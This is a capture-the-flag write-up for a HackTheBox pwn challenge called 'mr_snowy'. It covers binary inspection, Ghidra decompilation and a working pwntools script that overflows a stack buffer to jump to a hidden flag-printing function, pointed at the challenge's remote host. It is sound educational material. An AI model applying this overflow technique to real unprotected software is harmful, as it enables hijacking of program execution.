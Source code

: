 The files that we got in order to solve this challenge were:
```
mr_snowy          flag.txt
```
We also get a hint
> There is ❄️ snow everywhere!! Kids are playing around, everything looks amazing. But, this ☃️ snowman... it scares me.. He is always ? staring at Santa's house. Something must be wrong with him.
---
## File inspection

The `flag.txt` file is clearly made for testing since opening it will show us its content as
```
HTB{f4k3_fl4g_4_t3st1ng}
```
\
***The file that we are most interested in is `mr_snowy`***\
\
In order to start working on this challenge, we need to inspect the file and see what we are dealing with. Since it is a `pwn` challenge, we can assume the given file is an ELF.
To make sure we run
```
file mr_snowy
```
which results in:
![result for running "file mr_snowy"](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/file_ss.png)\
From this we can see that the file is `not stripped` which is great news to us, meaning we can find a `main` function that hopefully will allow us to identify an exploit.

Next we want to see if there are any clues or maybe even the flag itself in the strings of the files so we run
```
strings mr_snowy
```
which results in a bunch of random strings, mostly useless with the exception of:
![interesting strings](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/strings_ss.png)\
This is perhaps a clue that there is a function within the file that calls `flag.txt` and further more potentially prints it out for us.

Now we already have an idea of what this challenge might want us to do, which is get to the function that prints out the flag and thus complete the challenge. But that would be too easy, wouldn't it?
Before we fire up `ghidra` and see what the deal is, we have two more things left to do. Checking the security of the file and running it.

```
checksec mr_snowy
```
which results in:\
![result of "checksec mr_snowy"](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/checksec_ss.png)\
Again, wonderful news! No PIE will make our life easier.

Now let's run it
```
chmod +x mr_snowy
./mr_snowy
```
![running it](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/running_it_1.png)\
\
We have two options. Choosing `2` will display\
![choosing 2](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/running_it_choosing_2.png)\
\
Hm.. wrong answer. Let's try `1`\
![choosing 1](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/running_it_choosing_1.png)\
\
Ok! Progress. Let's choose `2`\
![choosing 1 then 2](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/running_it_choosing_1_then_2.png)\
\
Uh oh, that wasn't the right choice. Let's go back and choose `1`\
![choosing 1 then 1](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/running_it_choosing_1_then_1.png)\
That did not work either... So that means that no matter what options you will choose, you cannot get the flag. There must be another answer to this.

---
## Buffer overflow

Whenever I see ELF files, I always try to see if I can overflow the buffer. Let's try to do that.
\
We will generate a string of 1000 which should be sufficient to test overflowing
```
pwn cyclic 1000
```
with the result
```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsa
abtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadm
aadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaaf
gaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagya
agzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaais
aaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaajwaajxaajyaaj
```
Now we will write that huge string instead of `1` or `2` in the first menu option

![buff overflow 1](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/buffer_overflow_1.png)\
It seems like it did not work\
\
Let's try the second menu\
![buff overflow 2](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/buffer_overflow_2.png)\
Bingo! `Segmentation fault` is what we wanted. It indicates that we were able to flow the buffer and now we can write a script to potentially exploit it.\
\
Before we do that, we just need to fire up `ghidra` and check the code quickly. I have my ghidra folder in `/opt/ghidra_10.0.4_PUBLIC/` so I will run
```
/opt/ghidra_10.0.4_PUBLIC/ghidraRun
```
\
We create a project quick and analyze `mr_snowy`. Indeed in the `functions` tab we can see `deactivate_camera` with the following source code:
```
void deactivate_camera(void)

{
  char acStack104 [48];
  FILE *local_38;
  char *local_30;
  undefined8 local_28;
  int local_1c;
  
  local_1c = 0x30;
  local_28 = 0x2f;
  local_30 = acStack104;
  local_38 = fopen("flag.txt","rb");
  if (local_38 == (FILE *)0x0) {
    fwrite("[-] Could not open flag.txt, please conctact an Administrator.\n",1,0x3f,stdout);
                    /* WARNING: Subroutine does not return */
    exit(-0x45);
  }
  fgets(local_30,local_1c,local_38);
  puts("\x1b[1;32m");
  fwrite("[+] Here is the secret password to deactivate the camera: ",1,0x3a,stdout);
  puts(local_30);
  fclose(local_38);
  return;
}
```
\
So this is the function that will print our flag, but inspecting the `main` we notice that it isn't called anywhere.
\

---
## The exploit
Thus the solution is this: ***we need to execute the function `deactivate_camera` by overflowing the buffer and returning to the address of the wanted function.***
\
In order to do this I wrote a [python script](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/mr_snowy/mr_snowy.py)\
\
***This code is based on [this template](https://github.com/Crypto-Cat/CTF/blob/main/pwn/official_template.py) created by [Crypto-Cat](https://github.com/Crypto-Cat)***
```
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Find offset to EIP/RIP for buffer overflows
def find_ip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendlineafter('>', '1')
    p.sendlineafter('>', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    ip_offset = cyclic_find(p.corefile.read(p.corefile.rsp, 4))  # x86
    # ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Binary filename
exe = './mr_snowy'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(1000))

# Start program
#io = process()
io = remote('138.68.174.27', 32009)

rop = ROP(elf)

# Build the payload
payload = flat (
    {offset: elf.functions.deactivate_camera}
)

# Send the payload
io.sendlineafter('>', '1')
io.sendlineafter('>', payload)

io.interactive()
```
\
Commenting
```
io = remote('138.68.174.27', 32009)
```
and uncommenting
```
io = process()
```
will allow us to run the script locally and see that it prints 
```
[+] Here is the secret password to deactivate the camera: HTB{f4k3_fl4g_4_t3st1ng}
```
and running it on the target prints our flag.


